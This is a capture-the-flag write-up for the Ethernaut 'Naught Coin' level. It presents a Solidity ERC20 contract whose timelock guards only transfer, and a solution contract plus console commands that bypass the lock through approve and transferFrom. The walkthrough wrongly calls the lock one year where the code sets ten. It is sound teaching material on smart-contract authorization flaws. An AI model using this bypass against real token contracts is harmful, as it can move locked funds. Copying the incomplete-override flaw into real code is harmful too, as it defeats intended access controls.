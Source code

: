 # Naught Coin

## Challenge Description

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

-   The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
-   The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    uint public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(
        address _to,
        uint256 _value
    ) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

## Challenge Solution Walkthrough

In this contract, there is a requirement to wait for one year before being able to withdraw funds. However, we can bypass this waiting period by granting access to another address to withdraw the funds on our behalf, allowing us to spend them immediately. This can be achieved by utilizing the `approve` and `transferFrom` functions inherited from the `ERC20` contract.

The `ERC20` contract provides two important functions:

```solidity
function approve(
    address spender,
    uint256 amount
) public virtual override returns (bool) {
    address owner = _msgSender();
    _approve(owner, spender, amount);
    return true;
}

function transferFrom(
    address from,
    address to,
    uint256 amount
) public virtual override returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, amount);
    _transfer(from, to, amount);
    return true;
}
```

These functions allow us to authorize another address to spend our funds. First, we use the `approve` function to grant permission for another address to withdraw the funds. Then, we use the `transferFrom` function to initiate the actual withdrawal.

To accomplish this, we can deploy the following contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./NaughtCoin.sol";

contract NaughtCoinSolution {
    NaughtCoin public naughtCoin;

    constructor(address naughtCoinAddress) {
        naughtCoin = NaughtCoin(naughtCoinAddress);
    }

    function solveChallenge() public {
        naughtCoin.transferFrom(
            msg.sender,
            address(this),
            naughtCoin.balanceOf(msg.sender)
        );
    }
}
```

By calling the `solveChallenge()` function in this deployed contract, we can withdraw the funds. However, prior to executing this function, we need to grant approval to the contract address, `0x69717414089c2E786BcE24846A55D4C3756908Ee`, allowing it to withdraw the funds. This approval can be obtained through the console using the following commands:

```javascript
> const totalValue = await contract.balanceOf(player)
> await contract.approve("0x69717414089c2E786BcE24846A55D4C3756908Ee", totalValue)
```

Finally, we can proceed to call the `solveChallenge()` function in the deployed contract to withdraw the funds.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
